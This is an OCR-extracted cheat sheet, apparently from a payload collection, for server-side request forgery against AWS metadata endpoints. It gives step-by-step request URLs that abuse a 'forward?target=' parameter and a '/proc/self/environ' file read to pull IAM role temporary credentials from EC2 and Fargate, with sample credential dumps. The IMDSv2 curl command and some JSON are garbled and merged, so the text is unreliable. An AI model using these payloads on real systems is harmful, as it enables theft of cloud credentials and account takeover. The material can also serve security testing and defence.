 # Metadata Server Side Request Forgery (SSRF)

## WARNING: Only working with IMDSv1. Enabling IMDSv2 : aws ec2 modify-instance-metadataoptions --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required .

### In order to usr IMDSv2 you must provide a token.

 - export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"

# Method for Elastic Cloud Compute (EC2)

### Example: https://awesomeapp.com/forward?target=http://169.254.169.254/latest/metadata/iam/security-credentials/Awesome-WAF-Role/

## 1) Access the IAM : https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/

 - ami-id

 - ami-launch-index

 - ami-manifest-path

 - block-device-mapping/

 - events/

 - hostname

 - iam/

 - identity-credentials/

 - instance-action

 - instance-id

## 2) Find the name of the role assigned to the instance: https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/

## 3) Extract the role's temporary keys: https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/Awesome-WAFRole/

{
"Code" : "Success",
"LastUpdated" : "2019-07-31T23:08:10Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "ASIA54BL6PJR37YOEP67",
"SecretAccessKey" : "OiAjgcjm1oi2xxxxxxxxOEXkhOMhCOtJMP2",
"Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
"Expiration" : "2019-08-01T05:20:30Z"
}

# Method for Container Service (Fargate)

## 1) Fetch the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI variable from: https://awesomeapp.com/download?file=/proc/self/environ

JAVA_ALPINE_VERSION=8.212.04-r0
HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-
AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH

## 2) Use the credential URL to dump the AccessKey and SecretKey: https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447

{
"RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
"AccessKeyId": "ASIA54BL6PJR2L75XHVS",
"SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhbObuTBKcemfrIygt",
"Token": "FQoGZXIvYXdzEMj//////////wEaDEQW+wwBtaoyqH5lNSLGBF3PnwnLYa3ggfKBtLMoWCEyYklw6YX85koqNwKMYrP6ymcjv4X2gF5enPi9/"Expiration": "2019-09-18T04:05:59Z"
}
